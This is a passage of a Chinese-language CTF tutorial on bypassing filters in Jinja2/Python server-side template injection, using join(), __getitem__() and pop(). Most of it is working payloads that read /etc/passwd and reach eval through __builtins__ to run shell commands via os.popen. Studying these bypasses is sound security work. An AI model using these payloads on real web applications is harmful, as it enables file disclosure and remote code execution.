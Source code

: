 可以看到，在 payload 中，只要是字符串的，即 payload 中引号内的，都可以用引号绕过。

### 利用 join() 函数绕过

我们可以利用 join() 函数来绕过关键字过滤。例如，题目过滤了 flag，那么我们可以用如下方法绕过：

```
[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read()


```

绕过其他字符
------

### 过滤了中括号 [ ]

**利用 `__getitem__()` 绕过**

可以使用 `__getitem__()` 方法输出序列属性中的某个索引处的元素，如：

```
"".__class__.__mro__[2]
"".__class__.__mro__.__getitem__(2)
['__builtins__'].__getitem__('eval')


```

如下示例：

```
{{''.__class__.__mro__.__getitem__(2).__subclasses__().__getitem__(40)('/etc/passwd').read()}}       // 指定序列属性

{{().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(59).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}       // 指定字典属性


```

**利用 pop() 绕过**

pop() 方法可以返回指定序列属性中的某个索引处的元素或指定字典属性中某个键对应的值，如下示例：

```
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()}}       // 指定序列属性

{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.pop('__builtins__').pop('eval')('__import__("os").popen("ls /").read()')}}       // 指定字典属性


```

注意：最好不要用 pop()，因为 pop() 会删除相应位置的值。

